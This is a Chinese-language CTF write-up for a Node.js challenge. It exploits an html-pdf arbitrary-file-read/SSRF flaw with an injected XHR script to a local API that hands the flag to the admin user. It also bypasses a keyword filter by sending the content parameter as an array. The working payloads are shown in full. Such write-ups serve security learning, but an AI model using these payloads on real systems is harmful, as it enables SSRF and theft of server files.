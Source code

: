 这题的思路还是比较清晰的。当时没能做出来主要还是因为`content`那里的绕过不会，还是对node.js不熟悉导致的。



功能有登录，制造pdf，`files`的`insert`，还有通过`checknum`来读文件。

登录的话，`database.js`里面给了`admin`和`e365655e013ce7fdbdbf8f27b418c8fe6dc9354dc4c0328fa02b0ea547659645`，直接登录即可。`files`表可以知道，flag在`superuser`那里，但是`superuser`不能用。通过下面三行代码也可以知道，需要把`flag`给`admin`用户。

```js
            let filename = await DB.getFile(token.username, req.params.id)
            if (fs.existsSync(path.join(__dirname , "../files/", filename))){
                return res.send(await readFile(path.join(__dirname , "../files/", filename)));
```



但是`/api/files/`功能那里需要SSRF。

通过查找`html-pdf`库发现它存在一个任意文件读取：

> `html-pdf` before version 3.0.1 is vulnerable to Arbitrary File Read. The package fails to sanitize the HTML input, allowing attackers to exfiltrate server files by supplying malicious HTML code. XHR requests in the HTML code are executed by the server. Input with an XHR request such as `request.open("GET","file:///etc/passwd")` will result in a PDF document with the contents of `/etc/passwd`.



因此可以利用制造pdf的功能来实现ssrf，把flag给admin用户。

```js
<script>
var xhr = new XMLHttpRequest();xhr.open("GET", "http://127.0.0.1:8888/api/files?username=admin&filename=./flag&checksum=123", true);xhr.send();
</script>
```

而且filename字段是UNIQUE，需要不能直接flag，用./flag。

但是有个问题就是这个过滤：

```js
    if ( content == '' || content.includes('<') || content.includes('>') || content.includes('/') || content.includes('script') || content.includes('on')){
        // even admin can't be trusted right ? :)  
        return res.render('admin', { error: 'Forbidden word 🤬'});
    } else {
```



当时自己就卡在了这里，不知道怎么绕过。关键就在于node.js的弱类型和php的弱类型有所不同。js中数组和字符串拼接的话，比如`["hello"]+"world"`，得到的是`helloworld`，而php里确实`Arrayworld`。也是因为深受php的影响，所以没想到这里可以用数组来绕过，记得URL编码：

```js
http://b34ad16e-b7b2-4eb1-bfc1-8f0840ab5307.node4.buuoj.cn:81/admin

content[]=<script>
var xhr = new XMLHttpRequest();xhr.open("GET", "http://127.0.0.1:8888/api/files?username=admin&filename=./flag&checksum=123", true);xhr.send();
</script>
```
